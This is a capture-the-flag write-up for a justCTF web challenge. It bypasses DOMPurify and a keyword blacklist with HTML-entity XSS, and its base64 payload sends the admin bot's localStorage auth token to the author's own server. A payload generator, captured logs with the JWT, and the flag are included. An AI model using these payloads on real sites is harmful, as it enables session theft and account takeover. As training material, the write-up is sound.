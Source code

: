# justPocketTheBase

## Description
```
The thing I love the most about ready-to-use backends and frameworks is that they are always secure :)

-http://justpocketthebase.web.jctf.pro
-https://s3.cdn.justctf.team/c5536ebc-945a-4fa7-af34-f064b29916d0/justpocketthebase_docker.tar.gz
```

## Writeup

Starting off by taking a look at the website before inspecting the provided code. <br/>
After creating an account we are able to create plants which will be stored in the application and can be accessed via `view-plant?id=[ID]`. We can pass a title and an image to create such an object. <br/>
Custom `character-blacklist`: <br/>
```js
let blacklist = [
	'window',
	'document',
	'cookie',
	'fetch',
	'navigator',
	'sendbeacon',
	'+',
	'_',
	'script',
	'!',
	'"',
	'#',
	'%',
	"'",
	'(',
	')',
	'*',
	'+',
	',',
	'-',
	'/',
	':',
	'?',
	'@',
	'[',
	']',
	';'
];

const sanitizedTitle = DOMPurify.sanitize(plant.title);
const newTitleElement = document.createElement('div');
newTitleElement.classList.add('title');
newTitleElement.innerHTML = sanitizedTitle;
const safe = newTitleElement.innerText;
try {
        if (blacklist.some((word) => safe.toLowerCase().includes(word))) {
		throw new Error('not safe!!!');
	}
	title.innerHTML = safe;
} catch (err) {
	window.location.href = '/';
}
```

The `dompurify` can be bypassed using [HTML-Entity-Characters](https://html.com/character-codes/) by simply "encoding" `<` and `>`. <br/>

XSS via title of a new plant by exchanging **()** with **``**: <br/>
```js
&lt;img src=1 onerror=alert`1`&gt;
```

Using [PortSwigger-Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#img-tag-with-base64-encoding) we are able to simply execute javascript and bypass the `custom-blacklist`. <br/>
```js
&lt;img src=1 onerror=location=atob`amF2YXNjcmlwdDpmZXRjaChgaHR0cHM6Ly9hcnl0My5kZXYvJHtsb2NhbFN0b3JhZ2UuZ2V0SXRlbSgicG9ja2V0YmFzZV9hdXRoIil9YCk=`&gt;
```

Making a script to enchance efficiency: <br/>
```py
import base64

payload = 'JAVASCRIPT-PAYLOAD'

print(f'&lt;img src=1 onerror=location=atob`{base64.b64encode(bytes(f"javascript:{payload}", "utf-8"))}`&gt;')
```

Leak localstorage which contains the JWT of the bot: <br/>
```js
&lt;img src=1 onerror=location=atob`amF2YXNjcmlwdDpmZXRjaChgaHR0cHM6Ly9hcnl0My5kZXYvJHtsb2NhbFN0b3JhZ2UuZ2V0SXRlbSgicG9ja2V0YmFzZV9hdXRoIil9YCk=`&gt;

// fetch(`https://aryt3.dev/${localStorage.getItem("pocketbase_auth")}`) - my webserver
```

Server Logs after reporting the webpage: <br/>
```
167.71.14.123 - - [15/Jun/2024:13:54:43 +0200] "GET /%7B%22token%22:%22eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjb2xsZWN0aW9uSWQiOiJfcGJfdXNlcnNfYXV0aF8iLCJleHAiOjE3MTk2NjIwODIsImlkIjoiZWJtN3dvZnk5OW5tYjRiIiwidHlwZSI6ImF1dGhSZWNvcmQifQ.LqdYoqEO8cDmOgertTUt5FsmP6jUfDM0Z-GEbEJwBkc%22,%22model%22:%7B%22avatar%22:%22%22,%22collectionId%22:%22_pb_users_auth_%22,%22collectionName%22:%22users%22,%22created%22:%222024-06-15%2010:52:23.378Z%22,%22email%22:%22%22,%22emailVisibility%22:false,%22id%22:%22ebm7wofy99nmb4b%22,%22name%22:%22%22,%22updated%22:%222024-06-15%2010:52:23.378Z%22,%22username%22:%22flag%22,%22verified%22:false%7D%7D HTTP/1.1" 502 559 "http://localhost/" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/125.0.0.0 Safari/537.36"
```

URL-Decoded:
```json
{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjb2xsZWN0aW9uSWQiOiJfcGJfdXNlcnNfYXV0aF8iLCJleHAiOjE3MTk2NjI2OTcsImlkIjoiZWJtN3dvZnk5OW5tYjRiIiwidHlwZSI6ImF1dGhSZWNvcmQifQ.hSvcypOCNSsIYeXJ-JZE4H7vWnt7UFvrzAoMBkxwVp0","model":{"avatar":"","collectionId":"_pb_users_auth_","collectionName":"users","created":"2024-06-15 10:52:23.378Z","email":"","emailVisibility":false,"id":"ebm7wofy99nmb4b","name":"","updated":"2024-06-15 10:52:23.378Z","username":"flag","verified":false}}
```

Having obtained the whole localstorage we can switch ours with the one we retrieved. <br/>
After that we can access the post with the `flag-image` and download that image. <br/>
Now we can inspect the image in the `admin-post` which reveals the flag. <br/>
```sh
$ exiftool flag_gygEshYymV.png 
ExifTool Version Number         : 12.76
File Name                       : flag_gygEshYymV.png

---------------------------------------------------------

Artist                          : justCTF{97603333-6596-43fe-aef8-a134c1cc11b4}
```